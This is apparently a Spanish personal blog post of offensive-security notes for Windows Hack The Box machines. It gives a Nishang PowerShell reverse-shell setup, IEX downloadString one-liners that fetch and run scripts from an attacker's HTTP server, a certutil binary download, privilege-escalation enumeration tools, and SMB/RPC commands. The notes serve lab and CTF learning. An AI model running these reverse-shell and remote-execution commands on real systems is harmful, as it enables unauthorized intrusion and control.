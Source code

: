```yaml
---
layout: post
title: "Apuntes Maquinas Windows"
subtitle: 'apuntes recopilados para cada una de las maquinas windows que voy haciendo'
date: 2020-08-12 12:00:00
author: "TheusZero"
header-img: "images/post/windows/windowsApuntes.png"
catalog: true
comments: true
tags:
  - Windows
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


## Links Ricolinos

[Optium-HackTheBox](https://www.youtube.com/watch?v=fIGvOGrdxyc&list=PLlb2ZjHtNkpiSbrOfeRASNsvpHD6bEWoA)
[]()

## PowerShell
[powershells para windows](https://github.com/samratashok/nishang)

#### Pasos para invocar una una powerShell Manual
> recordar usar nc -nlvp port

> nishang/shells/Invoke_PowerShellTCP.ps1 

> colocar esto al final del invoke powershell **Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 443**

> abrir un SimpleHTTPServer en el puerto 8000

> dentro de la maquina, escribir: ```start /b powershell IEX(New-Object Net.webClient).downloadString('http://MyIpAdrress:8000/Invoke_PowerShellTCP.ps1')```
>> esto ejecutara e interpretara el archivo ps1

ahora, cuando ya tenemos acceso con la powerShell debemos obtener un reconocimiento del sistema, debido a la utilizacion de la powershell no segura y de manera bruta podemos obtener una cantidad grande de *falsos positivos*, por eso mismo intentaremos jugar con comandos del sistema para asi poder acceder a una verdadera forma de escalar privilegios.

```Python
[Environment]::Is64BitsOperatingSystem
```

```Python
[Environment]::Is64BitsProcess
```
> si es falso, este proceso de shell es de 32bits, por lo que tenemos que migrar a mano a un proceso de 64 bits si o si debemos migrar

```start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://MyIpAdrress:8000/Invoke_PowerShellTCP.ps1')```
con esto logramos crear una powerShell que trabaje en 64bits, por lo que volvemos a lanzar un netcat para obtener la reverse shell otra vez

> preguntamos otra vez :
>> ```[Environment]::Is64BitsProcess```

una vez que es true podemos continuar y no van a darnos falsos positivos

## Privesec

#### windows suggester
[windows exploit suggester bacan](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

> python windows-exploit-suggester.py --update

> instalar python-xlrd con sudo apt-get install 

> python windows-exploit-suggester.py --database (archivo que se creo) --systeminfo systeminfo.txt (archivo que creamos)

**ir de arriba hacia abajo en los exploits que encontro**

[weseng](https://github.com/bitsadmin/wesng)

se copia todo el output en un archivo .txt y se ejecuta el comando o binario del wesng

#### powerSploit
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

powersploit tiene un modulo para el privesec llamado **PowerUp.ps1**

> mismo principio de la powershell, se coloca esta linea al final del documento
```Python
Invoke-AllChecks
```

luego:

```Python
IEX(New-Object Net.WebClient).downloadString('http://myIp:8000/PowerUp.ps1')
```

## subir archivos binarios y ejecturlos en la maquina

> abrir un SimpleHttpServer para el binario

> en la maquina escribir
>> ```certutil.exe -f -urlcache -split http://myIpAdress/theBinary.exe thebinary.exe```

## samba and rpc cheatsheets

```Python
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
```

```Python
sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSWORD>

sudo smbclient -L //<HOST_IP_OR_NAME> -U <USERNAME%PASSOWRD> -g | grep Disk | cut -f 1 -d '|'
## LIST only the names of the shared Disk
```

```Python
rpcclient -U username ip
```

#### mount a smb folder in the host sistem
```Python
cd /mnt
mkdir smbMounted
cd smbMounted
mount -t cifs //IPAtacking/Folder /mnt/smbMounted -o username=null,password=null,domain=WORKGROUP,rw
```

## ssh

```Python
# SEND FILES THROUGH SSH
# ======================
## copy file from local over to remote server
scp -i <.ssh/key> <local/file> <user>@<host_name_or_ip>:<destination>
## using config
scp <local/file> <hostname>:<destination>
## copy file from remote server to local
scp -i <.ssh/key> <user>@<host_name_or_ip>:<file/to/copy> <local/destination>
## using config
scp <hostname>:<file/to/copy> <local/destination>
```